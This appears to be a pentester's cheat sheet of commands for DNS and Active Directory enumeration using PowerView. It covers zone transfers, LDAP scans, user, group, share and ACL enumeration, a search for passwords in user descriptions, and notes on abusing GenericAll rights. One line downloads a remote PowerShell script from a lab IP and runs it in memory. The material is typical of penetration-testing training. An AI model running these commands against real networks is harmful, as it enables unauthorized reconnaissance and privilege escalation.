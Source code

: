 #   Pre Enumeration

##  DNS Enumeration
-   dig axfr mx txt all ns any <domain> @$IP 
-   nslookup
>   IP
>   DOMAIN

##  Domain Enumeration  [PowerView.ps1]
-   nmap -sT -Pn -n --open $IP -p389 --script ldap-rootdse

-   IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
-   . .\PowerView.ps1
-   import-module .\PowerView.ps1

[+] Enumerating the Domain
-   get-netdomain
-   Get-DomainPolicy
-   get-domainsid

[+] User Enumeration
-   get-netuser | select cn
-   get-netuser | select -expandproperty samaccountname
-   find-userfield - SearchField description "pass"

[+] Group Enumeration
-   Get-NetGroup
-   get-netgroup -UserName "nathan"
-   get-netgroup -GroupName "it admins" -FullData

[+] Domain Network Computers / Shares Enumeration
-   Get-NetComputer
-   Get-NetComputer -FullData
-   Get-NetComputer -OperatingSystem "*Windows 10*"
-   Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC -Verbose
-   Invoke-FileFinder

[+] Enumeration Local Admins Users
-   Invoke-EnumerateLocalAdmin

[+] Enumeration Group Policy Objects
-   get-netgpo

[+] Enumeration Access Control List [**ACL**]
-   get-objectacl
-   get-objectacl -SamAccountName "engineering" -ResolveGUIDs

>   `GenericAll` on Group   [Cherry TREE: 0xGenAll]

-   GOT GenericAll somewhere -> Add/Delete/Modify users in that group
-   I'm members of `A` group, I have GenericAll permission on `B` group, so i can do A/D/M users on that B group
